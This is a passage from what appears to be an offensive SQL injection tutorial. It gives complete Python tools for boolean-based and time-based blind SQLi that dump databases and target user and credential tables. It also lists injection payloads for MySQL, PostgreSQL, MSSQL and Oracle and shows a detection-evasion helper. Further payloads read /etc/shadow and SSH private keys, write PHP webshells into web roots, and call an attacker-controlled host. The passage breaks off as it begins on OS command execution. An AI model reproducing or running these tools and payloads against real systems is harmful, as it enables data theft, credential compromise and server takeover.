        # Extract each character
        result = ""
        for pos in range(1, length + 1):
            char = self.extract_char_binary(query, pos)
            if char:
                result += char
                print(f"\r{Fore.GREEN}[+] Extracting: {result}", end='', flush=True)
            else:
                result += "?"
        
        print()  # New line after extraction
        return result
    
    def extract_value_parallel(self, query, description="value"):
        """Extract value using parallel character bruteforce"""
        print(f"{Fore.CYAN}[*] Extracting {description} (parallel mode)...")
        
        # Get length first
        length = self.extract_length(query)
        
        if length == 0:
            print(f"{Fore.YELLOW}[!] Empty value or extraction failed")
            return ""
        
        print(f"{Fore.GREEN}[+] Length: {length}")
        
        result = ['?'] * length
        
        # Create all position/char combinations
        tasks = []
        for pos in range(1, length + 1):
            for char in self.charset:
                tasks.append((pos, char))
        
        # Execute in parallel
        found_positions = set()
        
        with ThreadPoolExecutor(max_workers=self.threads) as executor:
            future_to_task = {
                executor.submit(self.extract_char_bruteforce, query, pos, char): (pos, char)
                for pos, char in tasks
            }
            
            for future in as_completed(future_to_task):
                pos, char = future_to_task[future]
                
                if pos in found_positions:
                    continue
                
                try:
                    if future.result():
                        result[pos - 1] = char
                        found_positions.add(pos)
                        print(f"\r{Fore.GREEN}[+] Progress: {''.join(result)} ({len(found_positions)}/{length})", 
                              end='', flush=True)
                        
                        if len(found_positions) == length:
                            break
                except Exception:
                    pass
        
        print()
        return ''.join(result)
    
    def extract_database(self):
        """Extract current database name"""
        return self.extract_value_binary("SELECT database()", "database name")
    
    def extract_tables(self, limit=10):
        """Extract table names"""
        print(f"{Fore.CYAN}[*] Extracting table names...")
        tables = []
        
        for i in range(limit):
            query = f"SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT {i},1"
            table = self.extract_value_binary(query, f"table {i+1}")
            
            if table and table != "?" * len(table):
                tables.append(table)
                print(f"{Fore.GREEN}[+] Found table: {table}")
            else:
                break
        
        return tables
    
    def extract_columns(self, table_name, limit=20):
        """Extract column names from table"""
        print(f"{Fore.CYAN}[*] Extracting columns from '{table_name}'...")
        columns = []
        
        for i in range(limit):
            query = f"SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}' LIMIT {i},1"
            column = self.extract_value_binary(query, f"column {i+1}")
            
            if column and column != "?" * len(column):
                columns.append(column)
                print(f"{Fore.GREEN}[+] Found column: {column}")
            else:
                break
        
        return columns
    
    def extract_data(self, table_name, columns, limit=5):
        """Extract data from table"""
        print(f"{Fore.CYAN}[*] Extracting data from '{table_name}'...")
        
        records = []
        
        for i in range(limit):
            record = {}
            for column in columns:
                query = f"SELECT {column} FROM {table_name} LIMIT {i},1"
                value = self.extract_value_binary(query, f"row {i+1}.{column}")
                record[column] = value
            
            if any(v and v != "?" * len(v) for v in record.values()):
                records.append(record)
                print(f"{Fore.GREEN}[+] Record {i+1}: {record}")
            else:
                break
        
        return records
    
    def full_extraction(self):
        """Perform complete database extraction"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Boolean-Based Blind SQL Injection Extractor")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        # Verify vulnerability
        if not self.check_injectable():
            return
        
        print()
        
        # Extract database name
        db_name = self.extract_database()
        print(f"\n{Fore.GREEN}[+] Database: {db_name}\n")
        
        # Extract tables
        tables = self.extract_tables()
        print(f"\n{Fore.GREEN}[+] Tables found: {len(tables)}")
        for t in tables:
            print(f"    - {t}")
        
        # For each interesting table, extract structure and data
        interesting_tables = ['users', 'admin', 'accounts', 'credentials']
        
        for table in tables:
            if any(keyword in table.lower() for keyword in interesting_tables):
                print(f"\n{Fore.YELLOW}{'='*50}")
                print(f"{Fore.YELLOW}Analyzing table: {table}")
                print(f"{Fore.YELLOW}{'='*50}")
                
                columns = self.extract_columns(table)
                print(f"\n{Fore.GREEN}[+] Columns: {', '.join(columns)}")
                
                # Extract first few records
                records = self.extract_data(table, columns, limit=3)
                
                print(f"\n{Fore.GREEN}[+] Sample records:")
                for i, record in enumerate(records, 1):
                    print(f"  {i}. {record}")
        
        print(f"\n{Fore.CYAN}[*] Total requests made: {self.request_count}")
        print(f"{Fore.GREEN}[+] Extraction complete!")


def main():
    parser = argparse.ArgumentParser(
        description='Boolean-Based Blind SQLi Extractor',
        formatter_class=argparse.RawTextHelpFormatter
    )
    
    parser.add_argument('-u', '--url', required=True,
                       help='Target URL with injectable parameter\n'
                            'Example: http://target.com/page.php?id=1')
    
    parser.add_argument('-i', '--indicator', required=True,
                       help='String that appears when condition is TRUE\n'
                            'Example: "Product found" or "Welcome"')
    
    parser.add_argument('-m', '--method', default='GET',
                       choices=['GET', 'POST'],
                       help='HTTP method (default: GET)')
    
    parser.add_argument('-d', '--data', default='',
                       help='POST data (key=value&key2=value2)')
    
    parser.add_argument('-t', '--threads', type=int, default=10,
                       help='Number of threads (default: 10)')
    
    args = parser.parse_args()
    
    # Parse POST data if provided
    data = {}
    if args.data:
        for pair in args.data.split('&'):
            if '=' in pair:
                key, value = pair.split('=', 1)
                data[key] = value
    
    # Create extractor
    extractor = BooleanBlindExtractor(
        url=args.url,
        true_indicator=args.indicator,
        method=args.method,
        data=data,
        threads=args.threads
    )
    
    # Run extraction
    extractor.full_extraction()


if __name__ == "__main__":
    main()
```

**Usage Examples:**

```bash
# Basic GET request
python boolean_blind.py -u "http://target.com/product.php?id=" -i "Product found"

# POST request
python boolean_blind.py -u "http://target.com/login.php" -i "Welcome" -m POST -d "username=admin&password=test"

# With more threads
python boolean_blind.py -u "http://target.com/search.php?q=" -i "results found" -t 20

# Output:
# ======================================================================
# Boolean-Based Blind SQL Injection Extractor
# ======================================================================
# 
# [*] Testing for Boolean-based Blind SQLi...
# [+] Boolean-based Blind SQLi confirmed!
# 
# [*] Extracting database name...
# [+] Length: 6
# [+] Extracting: shopdb
# 
# [+] Database: shopdb
# 
# [*] Extracting table names...
# [+] Found table: users
# [+] Found table: products
# [+] Found table: orders
# 
# [+] Tables found: 3
#     - users
#     - products
#     - orders
# 
# ==================================================
# Analyzing table: users
# ==================================================
# [*] Extracting columns from 'users'...
# [+] Found column: id
# [+] Found column: username
# [+] Found column: password
# [+] Found column: email
# 
# [+] Columns: id, username, password, email
# 
# [*] Extracting data from 'users'...
# [+] Record 1: {'id': '1', 'username': 'admin', 'password': '5f4dcc3b', 'email': 'admin@site.com'}
# 
# [*] Total requests made: 847
# [+] Extraction complete!
```

### Time-Based Blind SQLi

#### The Concept

When Boolean-based doesn't work because:
- Response is always the same
- No visible difference between TRUE/FALSE
- Heavy caching in place

**Solution:** Use time delays to create observable differences

```
Normal request:    Response time: ~200ms
With SLEEP(5):     Response time: ~5200ms

If condition TRUE  → Sleep triggers → Slow response
If condition FALSE → No sleep       → Fast response
```

#### Time-Based Payloads by Database

**MySQL:**

```sql
# Basic time delay
' AND SLEEP(5)--
' AND IF(1=1, SLEEP(5), 0)--

# Conditional time delay
' AND IF(LENGTH(database())>5, SLEEP(5), 0)--
' AND IF(SUBSTRING(database(),1,1)='a', SLEEP(5), 0)--
' AND IF(ASCII(SUBSTRING(database(),1,1))>100, SLEEP(5), 0)--

# Alternative: BENCHMARK (heavy computation)
' AND BENCHMARK(10000000, SHA1('test'))--
' AND IF(1=1, BENCHMARK(10000000, SHA1('test')), 0)--

# Alternative: Heavy query
' AND (SELECT COUNT(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C)--
```

**PostgreSQL:**

```sql
# Basic delay
'; SELECT pg_sleep(5)--
' AND pg_sleep(5)--

# Conditional delay
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--
' AND CASE WHEN LENGTH(current_database())>5 THEN pg_sleep(5) ELSE pg_sleep(0) END--
' AND CASE WHEN SUBSTRING(current_database(),1,1)='p' THEN pg_sleep(5) ELSE pg_sleep(0) END--

# Alternative: dblink (if available)
'; SELECT dblink_connect('host=127.0.0.1 dbname=test user=test connect_timeout=5')--
```

**Microsoft SQL Server:**

```sql
# Basic delay
'; WAITFOR DELAY '00:00:05'--
'; WAITFOR TIME '12:00:00'--  # Wait until specific time

# Conditional delay
'; IF (1=1) WAITFOR DELAY '00:00:05'--
'; IF (LEN(DB_NAME())>5) WAITFOR DELAY '00:00:05'--
'; IF (ASCII(SUBSTRING(DB_NAME(),1,1))>100) WAITFOR DELAY '00:00:05'--

# Stacked queries
'; DECLARE @delay varchar(10); SET @delay='00:00:05'; WAITFOR DELAY @delay--

# Alternative: Heavy query
'; SELECT COUNT(*) FROM sys.all_columns A CROSS JOIN sys.all_columns B--
```

**Oracle:**

```sql
# Basic delay (requires privileges)
' AND DBMS_LOCK.SLEEP(5)=0--

# Alternative: DBMS_PIPE
' AND DBMS_PIPE.RECEIVE_MESSAGE('a',5)=0--

# Alternative: Heavy query
' AND (SELECT COUNT(*) FROM all_objects A, all_objects B) > 0--

# UTL_HTTP delay (outbound connection attempt)
' AND UTL_HTTP.REQUEST('http://127.0.0.1:1234/') IS NOT NULL--

# UTL_INADDR (DNS resolution delay)
' AND UTL_INADDR.GET_HOST_ADDRESS('sleep5.attacker.com')='1.1.1.1'--
```

#### Time-Based Extraction Process

**Step 1: Verify Time-Based SQLi**

```python
import requests
import time

def test_time_based(url, payload, delay=5):
    """Test if time-based injection works"""
    
    start = time.time()
    response = requests.get(f"{url}{payload}", timeout=delay+5)
    elapsed = time.time() - start
    
    print(f"Response time: {elapsed:.2f}s")
    return elapsed >= delay

# Test
url = "http://target.com/page.php?id=1"
if test_time_based(url, "' AND SLEEP(5)--"):
    print("[+] Time-based SQLi confirmed!")
```

**Step 2: Extract Data**

```sql
# Extract database name length
' AND IF(LENGTH(database())=1, SLEEP(5), 0)--  # Fast = No
' AND IF(LENGTH(database())=2, SLEEP(5), 0)--  # Fast = No
' AND IF(LENGTH(database())=3, SLEEP(5), 0)--  # Fast = No
' AND IF(LENGTH(database())=4, SLEEP(5), 0)--  # Fast = No
' AND IF(LENGTH(database())=5, SLEEP(5), 0)--  # Fast = No
' AND IF(LENGTH(database())=6, SLEEP(5), 0)--  # SLOW = YES! Length = 6

# Binary search for ASCII value
' AND IF(ASCII(SUBSTRING(database(),1,1))>64, SLEEP(5), 0)--  # Slow = >64
' AND IF(ASCII(SUBSTRING(database(),1,1))>96, SLEEP(5), 0)--  # Slow = >96 (lowercase)
' AND IF(ASCII(SUBSTRING(database(),1,1))>112, SLEEP(5), 0)-- # Slow = >112
' AND IF(ASCII(SUBSTRING(database(),1,1))>120, SLEEP(5), 0)-- # Fast = <=120
' AND IF(ASCII(SUBSTRING(database(),1,1))>116, SLEEP(5), 0)-- # Fast = <=116
' AND IF(ASCII(SUBSTRING(database(),1,1))>114, SLEEP(5), 0)-- # Slow = >114
' AND IF(ASCII(SUBSTRING(database(),1,1))=115, SLEEP(5), 0)-- # Slow = YES! ASCII 115 = 's'

# First character: 's'
# Continue for remaining characters...
```

#### Complete Time-Based Extraction Script

```python
#!/usr/bin/env python3
"""
Time-Based Blind SQL Injection Data Extractor
Extracts data using response time as oracle
"""

import requests
import time
import sys
import argparse
from colorama import Fore, init

init(autoreset=True)

class TimeBasedExtractor:
    def __init__(self, url, delay=5, tolerance=0.5, db_type='MySQL'):
        self.url = url
        self.delay = delay
        self.tolerance = tolerance
        self.db_type = db_type
        self.session = requests.Session()
        self.request_count = 0
        self.baseline_time = 0
        
    def get_baseline(self):
        """Establish baseline response time"""
        print(f"{Fore.CYAN}[*] Establishing baseline response time...")
        
        times = []
        for _ in range(3):
            start = time.time()
            self.session.get(self.url, timeout=30)
            elapsed = time.time() - start
            times.append(elapsed)
            time.sleep(0.1)
        
        self.baseline_time = sum(times) / len(times)
        print(f"{Fore.GREEN}[+] Baseline: {self.baseline_time:.2f}s")
        return self.baseline_time
    
    def build_payload(self, condition):
        """Build time-based payload for specific database"""
        
        payloads = {
            'MySQL': f"' AND IF({condition}, SLEEP({self.delay}), 0)--",
            'PostgreSQL': f"' AND CASE WHEN ({condition}) THEN pg_sleep({self.delay}) ELSE pg_sleep(0) END--",
            'MSSQL': f"'; IF ({condition}) WAITFOR DELAY '00:00:0{self.delay}'--",
            'Oracle': f"' AND CASE WHEN ({condition}) THEN DBMS_LOCK.SLEEP({self.delay}) ELSE DBMS_LOCK.SLEEP(0) END--"
        }
        
        return payloads.get(self.db_type, payloads['MySQL'])
    
    def check_condition(self, condition):
        """Check if condition is TRUE using time delay"""
        self.request_count += 1
        
        payload = self.build_payload(condition)
        
        try:
            start = time.time()
            self.session.get(f"{self.url}{payload}", timeout=self.delay + 10)
            elapsed = time.time() - start
            
            # Condition is TRUE if response was delayed
            return elapsed >= (self.baseline_time + self.delay - self.tolerance)
            
        except requests.exceptions.Timeout:
            return True  # Timeout means delay worked
        except Exception as e:
            print(f"{Fore.RED}[!] Error: {str(e)}")
            return None
    
    def verify_vulnerability(self):
        """Verify time-based SQLi exists"""
        print(f"{Fore.CYAN}[*] Verifying time-based injection...")
        
        # Test TRUE condition (should delay)
        start = time.time()
        
        if self.db_type == 'MySQL':
            payload = f"' AND SLEEP({self.delay})--"
        elif self.db_type == 'PostgreSQL':
            payload = f"'; SELECT pg_sleep({self.delay})--"
        elif self.db_type == 'MSSQL':
            payload = f"'; WAITFOR DELAY '00:00:0{self.delay}'--"
        else:
            payload = f"' AND DBMS_LOCK.SLEEP({self.delay})=0--"
        
        try:
            self.session.get(f"{self.url}{payload}", timeout=self.delay + 10)
            elapsed = time.time() - start
            
            if elapsed >= self.delay:
                print(f"{Fore.GREEN}[+] Time-based SQLi confirmed! (Delay: {elapsed:.2f}s)")
                return True
            else:
                print(f"{Fore.RED}[-] Time-based SQLi not detected (Response: {elapsed:.2f}s)")
                return False
                
        except requests.exceptions.Timeout:
            print(f"{Fore.GREEN}[+] Time-based SQLi confirmed! (Request timed out)")
            return True
    
    def extract_length(self, query):
        """Extract length using binary search"""
        low, high = 0, 100
        
        while low < high:
            mid = (low + high + 1) // 2
            condition = f"LENGTH(({query}))>={mid}"
            
            if self.check_condition(condition):
                low = mid
            else:
                high = mid - 1
            
            print(f"\r{Fore.CYAN}[*] Finding length... testing {mid}", end='', flush=True)
        
        print()
        return low
    
    def extract_char(self, query, position):
        """Extract single character using binary search"""
        low, high = 32, 126  # Printable ASCII
        
        while low < high:
            mid = (low + high + 1) // 2
            
            if self.db_type == 'MSSQL':
                condition = f"ASCII(SUBSTRING(({query}),{position},1))>={mid}"
            else:
                condition = f"ASCII(SUBSTRING(({query}),{position},1))>={mid}"
            
            if self.check_condition(condition):
                low = mid
            else:
                high = mid - 1
        
        return chr(low) if low > 32 else None
    
    def extract_value(self, query, description="value"):
        """Extract complete value character by character"""
        print(f"{Fore.CYAN}[*] Extracting {description}...")
        
        # Get length
        length = self.extract_length(query)
        print(f"{Fore.GREEN}[+] Length: {length}")
        
        if length == 0:
            return ""
        
        # Extract each character
        result = ""
        for pos in range(1, length + 1):
            char = self.extract_char(query, pos)
            if char:
                result += char
                print(f"\r{Fore.GREEN}[+] Extracting: {result} ({pos}/{length})", end='', flush=True)
            else:
                result += "?"
        
        print()
        return result
    
    def extract_database(self):
        """Extract current database name"""
        queries = {
            'MySQL': 'SELECT database()',
            'PostgreSQL': 'SELECT current_database()',
            'MSSQL': 'SELECT DB_NAME()',
            'Oracle': 'SELECT SYS.DATABASE_NAME FROM dual'
        }
        
        query = queries.get(self.db_type, queries['MySQL'])
        return self.extract_value(query, "database name")
    
    def extract_tables(self, limit=10):
        """Extract table names"""
        print(f"{Fore.CYAN}[*] Extracting table names...")
        tables = []
        
        for i in range(limit):
            if self.db_type == 'MySQL':
                query = f"SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT {i},1"
            elif self.db_type == 'PostgreSQL':
                query = f"SELECT tablename FROM pg_tables WHERE schemaname='public' OFFSET {i} LIMIT 1"
            elif self.db_type == 'MSSQL':
                query = f"SELECT TOP 1 name FROM sys.tables WHERE name NOT IN (SELECT TOP {i} name FROM sys.tables ORDER BY name) ORDER BY name"
            else:  # Oracle
                query = f"SELECT table_name FROM (SELECT table_name, ROWNUM rn FROM all_tables WHERE owner=user) WHERE rn={i+1}"
            
            table = self.extract_value(query, f"table {i+1}")
            
            if table and len(table.replace('?', '')) > 0:
                tables.append(table)
                print(f"{Fore.GREEN}[+] Found table: {table}")
            else:
                break
        
        return tables
    
    def extract_columns(self, table_name, limit=20):
        """Extract column names from table"""
        print(f"{Fore.CYAN}[*] Extracting columns from '{table_name}'...")
        columns = []
        
        for i in range(limit):
            if self.db_type == 'MySQL':
                query = f"SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}' LIMIT {i},1"
            elif self.db_type == 'PostgreSQL':
                query = f"SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}' OFFSET {i} LIMIT 1"
            elif self.db_type == 'MSSQL':
                query = f"SELECT TOP 1 name FROM sys.columns WHERE object_id=OBJECT_ID('{table_name}') AND name NOT IN (SELECT TOP {i} name FROM sys.columns WHERE object_id=OBJECT_ID('{table_name}') ORDER BY column_id) ORDER BY column_id"
            else:  # Oracle
                query = f"SELECT column_name FROM (SELECT column_name, ROWNUM rn FROM all_tab_columns WHERE table_name='{table_name.upper()}') WHERE rn={i+1}"
            
            column = self.extract_value(query, f"column {i+1}")
            
            if column and len(column.replace('?', '')) > 0:
                columns.append(column)
                print(f"{Fore.GREEN}[+] Found column: {column}")
            else:
                break
        
        return columns
    
    def extract_records(self, table_name, columns, limit=3):
        """Extract records from table"""
        print(f"{Fore.CYAN}[*] Extracting records from '{table_name}'...")
        records = []
        
        for i in range(limit):
            record = {}
            
            for column in columns:
                if self.db_type == 'MySQL':
                    query = f"SELECT {column} FROM {table_name} LIMIT {i},1"
                elif self.db_type == 'PostgreSQL':
                    query = f"SELECT {column}::text FROM {table_name} OFFSET {i} LIMIT 1"
                elif self.db_type == 'MSSQL':
                    query = f"SELECT TOP 1 CAST({column} AS varchar) FROM (SELECT *, ROW_NUMBER() OVER (ORDER BY (SELECT NULL)) AS rn FROM {table_name}) t WHERE rn={i+1}"
                else:  # Oracle
                    query = f"SELECT {column} FROM (SELECT {column}, ROWNUM rn FROM {table_name}) WHERE rn={i+1}"
                
                value = self.extract_value(query, f"row {i+1}.{column}")
                record[column] = value
            
            if any(v and len(v.replace('?', '')) > 0 for v in record.values()):
                records.append(record)
                print(f"{Fore.GREEN}[+] Record {i+1}: {record}")
            else:
                break
        
        return records
    
    def full_extraction(self):
        """Perform complete extraction"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Time-Based Blind SQL Injection Extractor")
        print(f"{Fore.YELLOW}{'='*70}\n")
        print(f"{Fore.CYAN}Target: {self.url}")
        print(f"{Fore.CYAN}Database: {self.db_type}")
        print(f"{Fore.CYAN}Delay: {self.delay}s\n")
        
        # Establish baseline
        self.get_baseline()
        
        # Verify vulnerability
        if not self.verify_vulnerability():
            print(f"{Fore.RED}[!] Exploitation failed")
            return
        
        print()
        
        # Extract database name
        db_name = self.extract_database()
        print(f"\n{Fore.GREEN}[+] Database: {db_name}\n")
        
        # Extract tables
        tables = self.extract_tables()
        print(f"\n{Fore.GREEN}[+] Tables found: {len(tables)}")
        for t in tables:
            print(f"    - {t}")
        
        # Look for interesting tables
        interesting = ['user', 'admin', 'account', 'credential', 'password', 'login']
        
        for table in tables:
            if any(word in table.lower() for word in interesting):
                print(f"\n{Fore.YELLOW}{'='*50}")
                print(f"{Fore.YELLOW}Extracting from: {table}")
                print(f"{Fore.YELLOW}{'='*50}")
                
                columns = self.extract_columns(table)
                print(f"\n{Fore.GREEN}[+] Columns: {', '.join(columns)}")
                
                records = self.extract_records(table, columns)
                print(f"\n{Fore.GREEN}[+] Records extracted: {len(records)}")
        
        print(f"\n{Fore.CYAN}[*] Total requests: {self.request_count}")
        print(f"{Fore.GREEN}[+] Extraction complete!")


def main():
    parser = argparse.ArgumentParser(description='Time-Based Blind SQLi Extractor')
    
    parser.add_argument('-u', '--url', required=True,
                       help='Target URL (including injectable parameter)')
    
    parser.add_argument('-d', '--database', default='MySQL',
                       choices=['MySQL', 'PostgreSQL', 'MSSQL', 'Oracle'],
                       help='Database type (default: MySQL)')
    
    parser.add_argument('-t', '--time', type=int, default=5,
                       help='Time delay in seconds (default: 5)')
    
    parser.add_argument('--tolerance', type=float, default=0.5,
                       help='Time tolerance in seconds (default: 0.5)')
    
    args = parser.parse_args()
    
    extractor = TimeBasedExtractor(
        url=args.url,
        delay=args.time,
        tolerance=args.tolerance,
        db_type=args.database
    )
    
    extractor.full_extraction()


if __name__ == "__main__":
    main()
```

**Usage:**

```bash
# MySQL target
python time_based.py -u "http://target.com/page.php?id=1" -d MySQL

# PostgreSQL with custom delay
python time_based.py -u "http://target.com/api/user?id=1" -d PostgreSQL -t 3

# MSSQL with higher tolerance (slow network)
python time_based.py -u "http://target.com/product.aspx?pid=1" -d MSSQL --tolerance 1.0
```

### Blind SQLi Optimization Techniques

#### Binary Search Optimization

```python
# Linear search: O(n) - Test each value
# Characters 32-126 = 94 possibilities per character

# Binary search: O(log n) - Divide and conquer
# 94 possibilities → ~7 requests per character

def binary_search_ascii(check_func, position):
    """Find ASCII value using binary search"""
    low, high = 32, 126
    
    while low < high:
        mid = (low + high + 1) // 2
        
        # Check if ASCII >= mid
        if check_func(position, mid):
            low = mid
        else:
            high = mid - 1
    
    return chr(low)

# Requests comparison for extracting 32-character string:
# Linear: 32 chars × 94 avg = ~3,008 requests
# Binary: 32 chars × 7 = ~224 requests (93% reduction!)
```

#### Bit-by-Bit Extraction

```python
# Even more efficient: extract 1 bit at a time
# ASCII 0-127 = 7 bits per character

def extract_bit(check_func, query, position, bit):
    """Extract single bit from character"""
    condition = f"(ASCII(SUBSTRING(({query}),{position},1))>>{bit})&1=1"
    return check_func(condition)

def extract_char_bits(check_func, query, position):
    """Reconstruct character from 7 bits"""
    char_value = 0
    
    for bit in range(7):
        if extract_bit(check_func, query, position, bit):
            char_value |= (1 << bit)
    
    return chr(char_value)

# Only 7 requests per character regardless of charset!
```

#### Parallel Extraction

```python
from concurrent.futures import ThreadPoolExecutor

def parallel_extract(url, query, positions, threads=10):
    """Extract multiple positions in parallel"""
    results = {}
    
    with ThreadPoolExecutor(max_workers=threads) as executor:
        futures = {
            executor.submit(extract_char_at, url, query, pos): pos 
            for pos in positions
        }
        
        for future in as_completed(futures):
            pos = futures[future]
            results[pos] = future.result()
    
    return ''.join(results[i] for i in sorted(results.keys()))

# Extract 10 characters simultaneously!
```

#### Request Grouping

```sql
# Instead of extracting one character:
# Test multiple conditions at once

# Test if ALL first 4 chars match expected
' AND SUBSTRING(password,1,4)='admi'--

# If TRUE: all 4 characters confirmed
# If FALSE: binary search within those 4

# Reduces requests when values are predictable
```

### Blind SQLi Tips & Tricks

#### Dealing with Timeouts

```python
# Implement retry logic
def reliable_request(url, payload, retries=3):
    for attempt in range(retries):
        try:
            response = requests.get(url + payload, timeout=15)
            return response
        except requests.exceptions.Timeout:
            if attempt < retries - 1:
                time.sleep(2)
                continue
            return None
```

#### Handling Unstable Networks

```python
# Take multiple measurements
def confirm_condition(url, payload, checks=3):
    """Confirm condition with multiple checks"""
    true_count = 0
    
    for _ in range(checks):
        if check_once(url, payload):
            true_count += 1
        time.sleep(0.5)
    
    # Require majority consensus
    return true_count > checks / 2
```

#### Avoiding Detection

```python
# Random delays between requests
import random

def stealth_request(url, payload):
    # Random delay 0.5-2 seconds
    delay = random.uniform(0.5, 2.0)
    time.sleep(delay)
    
    # Random User-Agent
    user_agents = [
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/91.0",
        "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) Safari/605.1",
        "Mozilla/5.0 (X11; Linux x86_64) Firefox/89.0"
    ]
    
    headers = {'User-Agent': random.choice(user_agents)}
    
    return requests.get(url + payload, headers=headers)
```

### Blind SQLi Quick Reference

| Technique | Speed | Reliability | Stealth | Best For |
|-----------|-------|-------------|---------|----------|
| Boolean Linear | Slow | High | Medium | Small data |
| Boolean Binary | Fast | High | Medium | General use |
| Boolean Bit | Fastest | High | Medium | Large data |
| Time Linear | Very Slow | Medium | Low | When needed |
| Time Binary | Slow | Medium | Low | Fallback |
| OOB (DNS) | Fast | Low | Very Low | Exfiltration |

---

## ⚡ Chapter 10: Advanced Exploitation

### Beyond Basic Data Extraction

Once you've confirmed SQLi exists, there's much more you can do:

```
Data Extraction (Basics)
    ↓
Schema Enumeration (What we covered)
    ↓
┌───────────────────────────────────────┐
│ ADVANCED TECHNIQUES                   │
├───────────────────────────────────────┤
│ • File System Access                  │
│ • Operating System Commands           │
│ • Privilege Escalation               │
│ • Network Pivoting                   │
│ • Data Manipulation                  │
│ • Persistent Access                  │
└───────────────────────────────────────┘
```

### File System Access

#### Reading Files

**MySQL:**

```sql
# Read file using LOAD_FILE() - requires FILE privilege
' UNION SELECT LOAD_FILE('/etc/passwd'),NULL,NULL--
' UNION SELECT LOAD_FILE('/var/www/html/config.php'),NULL,NULL--
' UNION SELECT LOAD_FILE('/etc/shadow'),NULL,NULL--

# Check FILE privilege
' UNION SELECT file_priv FROM mysql.user WHERE user=SUBSTRING_INDEX(USER(),'@',1)--

# Hex encoding for binary files
' UNION SELECT HEX(LOAD_FILE('/var/www/html/image.jpg')),NULL,NULL--

# Reading Windows files
' UNION SELECT LOAD_FILE('C:\\Windows\\System32\\drivers\\etc\\hosts'),NULL,NULL--
' UNION SELECT LOAD_FILE('C:\\inetpub\\wwwroot\\web.config'),NULL,NULL--

# Common files to read
/etc/passwd                          # User list
/etc/shadow                          # Password hashes (rare)
/etc/hosts                           # Host mappings
/var/www/html/config.php             # Database credentials
/var/www/html/.htaccess              # Apache config
~/.bash_history                      # Command history
~/.ssh/id_rsa                        # SSH private key
/proc/self/environ                   # Environment variables
```

**PostgreSQL:**

```sql
# Using pg_read_file() - requires superuser
' UNION SELECT pg_read_file('/etc/passwd'),NULL,NULL--
' UNION SELECT pg_read_file('/etc/passwd', 0, 1000),NULL,NULL--  # offset, length

# Using pg_read_binary_file()
' UNION SELECT encode(pg_read_binary_file('/etc/passwd'),'base64'),NULL,NULL--

# Using COPY
'; CREATE TABLE temp(content text)--
'; COPY temp FROM '/etc/passwd'--
' UNION SELECT content FROM temp--

# Large Object functions
' UNION SELECT lo_import('/etc/passwd')--  # Returns OID
' UNION SELECT lo_get(12345)--              # Read using OID
```

**Microsoft SQL Server:**

```sql
# Using OPENROWSET
' UNION SELECT BulkColumn FROM OPENROWSET(BULK 'C:\Windows\win.ini', SINGLE_CLOB) AS x--

# Using xp_cmdshell to type files
'; EXEC xp_cmdshell 'type C:\inetpub\wwwroot\web.config'--

# Using xp_dirtree to list directories
'; EXEC xp_dirtree 'C:\inetpub\wwwroot\'--

# OLE Automation
'; DECLARE @obj int, @out varchar(8000);
  EXEC sp_OACreate 'Scripting.FileSystemObject', @obj OUT;
  EXEC sp_OAMethod @obj, 'OpenTextFile', @out OUT, 'C:\test.txt', 1;
  EXEC sp_OADestroy @obj--
```

**Oracle:**

```sql
# Using UTL_FILE (requires directory object)
' UNION SELECT UTL_FILE.GET_LINE(UTL_FILE.FOPEN('MY_DIR','file.txt','R')) FROM dual--

# Create directory object (requires privileges)
'; CREATE OR REPLACE DIRECTORY MY_DIR AS '/etc/'--

# Using Java (if enabled)
' UNION SELECT DBMS_JAVA.FILE_GET_TEXT('/etc/passwd') FROM dual--

# Using XMLType for XXE
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>'),'/root') FROM dual--
```

#### Writing Files

**MySQL:**

```sql
# Write to file using INTO OUTFILE
' UNION SELECT 'file content',NULL,NULL INTO OUTFILE '/var/www/html/test.txt'--

# Write PHP webshell
' UNION SELECT '<?php system($_GET["cmd"]); ?>',NULL,NULL INTO OUTFILE '/var/www/html/shell.php'--

# More sophisticated shell
' UNION SELECT '<?php if(isset($_REQUEST["c"])){echo "<pre>";$c=$_REQUEST["c"];system($c);echo "</pre>";}?>',NULL,NULL INTO OUTFILE '/var/www/html/cmd.php'--

# Using INTO DUMPFILE (for binary files)
' UNION SELECT UNHEX('4D5A...') INTO DUMPFILE '/var/www/html/malware.exe'--

# Check secure_file_priv
' UNION SELECT @@secure_file_priv,NULL,NULL--
# If empty: can write anywhere
# If path: can only write to that directory
# If NULL: file operations disabled
```

**PostgreSQL:**

```sql
# Using COPY TO
'; COPY (SELECT 'file content') TO '/tmp/test.txt'--

# Write webshell
'; COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php'--

# Using Large Objects
'; SELECT lo_create(1337)--
'; INSERT INTO pg_largeobject VALUES (1337, 0, decode('base64content', 'base64'))--
'; SELECT lo_export(1337, '/var/www/html/shell.php')--
```

**MSSQL:**

```sql
# Using xp_cmdshell
'; EXEC xp_cmdshell 'echo ^<?php system($_GET["cmd"]); ?^> > C:\inetpub\wwwroot\shell.php'--

# Using BCP
'; EXEC master..xp_cmdshell 'bcp "SELECT ''test''" queryout C:\test.txt -c -S localhost -U sa -P password'--

# Using OLE Automation
'; DECLARE @o int; DECLARE @content varchar(8000);
  SET @content = '<?php system($_GET["cmd"]); ?>';
  EXEC sp_OACreate 'Scripting.FileSystemObject', @o OUTPUT;
  EXEC sp_OAMethod @o, 'CreateTextFile', NULL, 'C:\inetpub\wwwroot\shell.php', 1;
  EXEC sp_OASetProperty @o, 'OpenTextFile', @content;--
```

### Operating System Command Execution

#### MySQL Command Execution

**Method 1: Using User Defined Functions (UDF)**

```sql
# Step 1: Determine architecture
' UNION SELECT @@version_compile_os,@@version_compile_machine,NULL--

# Step 2: Write UDF library to plugin directory
# Get plugin directory
